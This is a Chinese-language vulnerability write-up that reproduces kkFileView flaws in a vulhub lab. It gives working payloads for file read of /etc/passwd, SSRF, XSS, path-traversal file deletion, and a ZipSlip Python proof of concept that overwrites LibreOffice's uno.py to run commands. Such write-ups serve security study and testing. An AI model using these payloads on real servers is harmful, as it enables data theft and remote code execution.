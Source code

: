 参考wp：[https://www.cnblogs.com/xbbth/p/17446987.html](https://www.cnblogs.com/xbbth/p/17446987.html)

[https://blog.csdn.net/qq_61475980/article/details/140604251](https://blog.csdn.net/qq_61475980/article/details/140604251)

[https://www.cnblogs.com/backlion/p/17372724.html](https://www.cnblogs.com/backlion/p/17372724.html)

[https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md)



kkFileView 是使用 Spring Boot 搭建的文档在线预览解决方案，能够支持多种主流办公文档的在线预览，如 doc、docx、xls、xlsx、ppt、pptx、pdf、txt、zip、rar 等格式。此外，还可以预览图片、视频、音频等多种类型的文件。


使用vulhub靶场复现

# 任意文件读取漏洞

**漏洞影响**

**kkFileview <=3.6.0**

**漏洞证明**

漏洞接口:[https://yourip/getCorsFile?urlPath=file:/](https://filepreview.zhongan.io/getCorsFile?urlPath=file:/)

 http://yourip//getCorsFile?urlPath=file:///etc/passwd



# SSRF漏洞

**漏洞影响**

kkFileview =v4.1.0

**漏洞证明**

1、kkFileview的getCorsFile接口存在SSRF漏洞，并且可读取任意文件。

[https://yourip/getCorsFile?urlPath=file:///](https://yourip/getCorsFile?urlPath=file:///)

2、通过该接口调用内网服务，并且进行访问，实现SSRF。

[https://yourip/getCorsFile?urlPath=http://192.168.1.1/](https://yourip/getCorsFile?urlPath=http://192.168.1.1/)

可以进行base64编码

# XSS漏洞

**漏洞影响**

kkFileview =v4.1.0

**漏洞证明**

http://yourip/onlinePreview?url=%3Cimg%20src=x%20οnerrοr=alert(0)%3E



URL1：[http://yourip/onlinePreview?url=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D](http://yourip/onlinePreview?url=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D)

经过base64加URL编码`http://www.baidu.com/test.txt"><img src=111 onerror=alert(1)>`




URL2： [http://yourip/picturesPreview?urls=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D](URL2: http://yourip/picturesPreview?urls=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D

poc同理

经过base64加URL编码`http://www.baidu.com/test.txt"><img src=111 onerror=alert(1)>`


URL3：/picturesPreview?urls=&currentUrl=PHN2Zy9vbmxvYWQ9YWxlcnQoMSk%2B

对`<svg/onload=alert(1)>`进行base64加URL编码

# 任意文件上传导致存储xss

**漏洞影响**

kkFileView=4.1.0

**漏洞证明**

# 任意文件删除

漏洞影响

kkFileview= v4.0.0

漏洞证明

/deleteFile?fileName=demo%2F..\xss.pdf

get请求此uri会删除\kkFileView-master\server\src\main\file目录中的xss.pdf（原本只能删除\kkFileView-master\server\src\main\file\demo目录下的文件)

# 任意文件上传导致远程执行漏洞（可以尝试反弹shell）

[https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md)

**漏洞影响**

4.2.0-4.4.0

**漏洞证明**

启动docker环境

```Python
docker-compose up -d
```


服务启动后，访问`http://your-ip:8012`即可查看到首页。
![image](https://github.com/user-attachments/assets/55e715f6-33a2-45cb-8ab3-1a32c279c936)


目标在使用 odt 转 pdf 时会调用系统的 Libreoffice，而该进程会调用库中的 `uno.py` 文件，因此可以覆盖 `uno.py` 文件的内容实现 RCE。

首先，修改 [poc.py](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/poc.py)：

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'vulhub'
        binary2 = b"import os\nos.system('touch /tmp/success')\n"
        zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
        # info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
![image](https://github.com/user-attachments/assets/a09ed8ad-88c3-46d1-b6cc-b593fd9079e7)



执行 `poc.py`，生成 POC 文件，`test.zip` 将被写入当前目录。

```Python
python poc.py
```


然后，使用 kkFileView 服务上传`test.zip`：
![image](https://github.com/user-attachments/assets/0d64e2bd-2228-4470-b936-985dbc11c895)


点击`test.zip`的“预览”按钮，可以看到 zip 压缩包中的文件列表：


最后，上传任意一个 odt 文件，例如 [sample.odt](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/sample.odt)，发起 Libreoffice 任务：

[sample.odt](https://flowus.cn/preview/839e1a62-b891-4dfc-97de-50575bba260e)
![image](https://github.com/user-attachments/assets/d53eb483-3dad-4c63-a5d7-f5158a753eac)


点击`sample.odt`的“预览”按钮，触发代码执行漏洞：
![image](https://github.com/user-attachments/assets/22774379-44cd-40c2-966d-b5ef9fb549e7)


可见，`touch /tmp/success`已经成功被执行：
![image](https://github.com/user-attachments/assets/4f895a9a-e97c-4c3c-947a-4662623f7677)

注意：生产环境禁止使用，会更改系统代码
![image](https://github.com/user-attachments/assets/ce32d3ad-b231-4167-9f11-f69e6d03c1f1)


